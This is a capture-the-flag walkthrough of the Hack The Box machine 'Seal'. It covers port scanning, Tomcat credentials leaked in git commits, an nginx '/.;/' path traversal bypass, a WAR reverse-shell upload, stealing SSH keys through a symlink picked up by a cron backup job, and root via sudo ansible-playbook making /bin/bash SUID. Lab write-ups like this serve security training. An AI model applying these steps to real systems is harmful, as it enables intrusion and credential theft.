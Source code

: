 # Seal

- Target Machine: 10.10.10.250

## Enumeration

### nmap scan

```bash
# Nmap 7.92SVN scan initiated Sun Sep 19 16:27:36 2021 as: nmap -p- -oN nmap/all_ports -v 10.10.10.250
Nmap scan report for 10.10.10.250
Host is up (0.049s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
443/tcp  open  https
8080/tcp open  http-proxy

Read data files from: /usr/local/bin/../share/nmap
# Nmap done at Sun Sep 19 16:28:16 2021 -- 1 IP address (1 host up) scanned in 40.52 seconds
```

At the end of the port 443 website page we can see the following email address: __admin@seal.htb__.
The website on port 8080 contains a GitBucket private hosting platform.

After registering on the GitBucket service, we can see two repositories that we have access to: root/infra and root/seal_market. We can also see three other accounts registered: Alex, Luis and Root.

Looking through the commits, we can also see the following credentials in the commit "Updating tomcat configuration"
	
```xml
<!--
    <user username="tomcat" password="<must-be-changed>" roles="tomcat"/>
    <user username="both" password="<must-be-changed>" roles="tomcat,role1"/>
    <user username="role1" password="<must-be-changed>" roles="role1"/>
-->
<user username="tomcat" password="42MrHBf*z8{Z%" roles="manager-gui,admin-gui"/>
</tomcat-users>
```

We can also find the following NGINX paths added in the "Updating nginx configuration" commit:

```js
location /manager/html {
				if ($ssl_client_verify != SUCCESS) {
					return 403;
				}
...

location /admin/dashboard {
				if ($ssl_client_verify != SUCCESS) {
					return 403;
				}
...

location /host-manager/html {
                if ($ssl_client_verify != SUCCESS) {
                    return 403;
                }
...
```

## Accessing the machine

Trying to access this paths prompts us with 403 Forbidden error message. However, we can bypass this block by using __path traversal__: we have to simply add a `/.;/` before the last element in the path, making NGNIX redirect us the that very same page, but ignoring the block (i.e. `https://10.10.10.250/admin/.;/dashboard/`).

The admin dashboard page contains nothing at all, while the other two pages prompt out an authorization request where we can login using the credentials found earlier `tomcat : 42MrHBf*z8{Z%`.
The host-manager page enables us to add some virtual hosts, while the manager page enables us to upload a .war file. We can upload a WAR [reverse shell](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#war) and trigger it

__ATTENTION__: you must catch the upload request with BurpSuite and and edit it using again the path traversal exploit (GET /manager/.;/html/upload?....) or else the server will deny the request with a 403 error again

After uploading the file, we can run a netcat listener and trigger the revshell by clicking on it directly from the page

## Lateral movement

Using ps aux we can see the following cronjob being executed by root:

```bash
...
tomcat    107490  0.0  0.2  15756  9760 ?        S    17:28   0:00 python3 -c import pty; pty.spawn('/bin/bash')
tomcat    107491  0.0  0.0   7104  3892 pts/0    Ss   17:28   0:00 /bin/bash
root      108228  0.0  0.0   8356  3380 ?        S    17:32   0:00 /usr/sbin/CRON -f
root      108229  0.0  0.0   2608   540 ?        Ss   17:32   0:00 /bin/sh -c sleep 30 && sudo -u luis /usr/bin/ansible-playbook /opt/backups/playbook/run.yml
root      108230  0.0  0.0   5476   580 ?        S    17:32   0:00 sleep 30
```

Looking at the contents of the `/opt/backups/playbook/run.yml` file, we can see that every file in `/var/lib/tomcat9/webapps/ROOT/admin/dashboard` gets copied to `/opt/backups/files`, including links. Then, an archive containing every file in `/opt/backups/files` gets created in the path `/opt/backups/archives/backup-{{ansible_date_time.date}}-{{ansible_date_time.time}}.gz`. In the end, every file in `/opt/backups/files` gets deleted

```bash
tomcat@seal:/opt/backups/playbook$ cat run.yml
cat run.yml
- hosts: localhost
  tasks:
  - name: Copy Files
    synchronize: src=/var/lib/tomcat9/webapps/ROOT/admin/dashboard dest=/opt/backups/files copy_links=yes
  - name: Server Backups
    archive:
      path: /opt/backups/files/
      dest: "/opt/backups/archives/backup-{{ansible_date_time.date}}-{{ansible_date_time.time}}.gz"
  - name: Clean
    file:
      state: absent
      path: /opt/backups/files/
```

Since this process also copies links, we could abuse this creating a symlink to luis' SSH keys, which then will get copied to the backup file.

```bash

mkdir /tmp/baks

ln -s /home/luis/.ssh/ /var/lib/tomcat9/webapps/ROOT/admin/dashboard/uploads

# WAIT FOR THE CRONJOB TO RUN
# CHECK WITH PS AUX
  
ls /opt/backups/archives/  
  
cp /opt/backups/archives/backup-{THE_LATEST_DATE}.gz /tmp/baks/luis_rsa.gz
  
gzip -kd luis_rsa.gz && tar -xf luis_rsa  
  
cd dashboard/uploads/.ssh  
  
cat id_rsa
```

Now that we can use luis' private key to SSH into the machine

## Priviledge escalation

We can see that luis can run the following command as root

```bash
luis@seal:~$ sudo -l
Matching Defaults entries for luis on seal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User luis may run the following commands on seal:
    (ALL) NOPASSWD: /usr/bin/ansible-playbook *

luis@seal:~$ 
```

We have to create a fake ansible playbook to be run by this software. We can mimic the one found in `/opt/backups/playbook/run.yml`. After a quick research on the internet, we find out that playbooks can run the command `chmod`, which we can use to change `/bin/bash` permissions.

```bash
luis@seal:~$ cd /dev/shm

luis@seal:/dev/shm$ vim run.yml 

# WRITE THIS IN THE FILE

- hosts: localhost
  tasks:
  - name: Gimme root!
    command: "chmod +s /bin/bash"

luis@seal:/dev/shm$ sudo /usr/bin/ansible-playbook /dev/shm/run.yml

luis@seal:/dev/shm$ /bin/bash -p

bash-5.0# id
uid=1000(luis) gid=1000(luis) euid=0(root) egid=0(root) groups=0(root),1000(luis)
```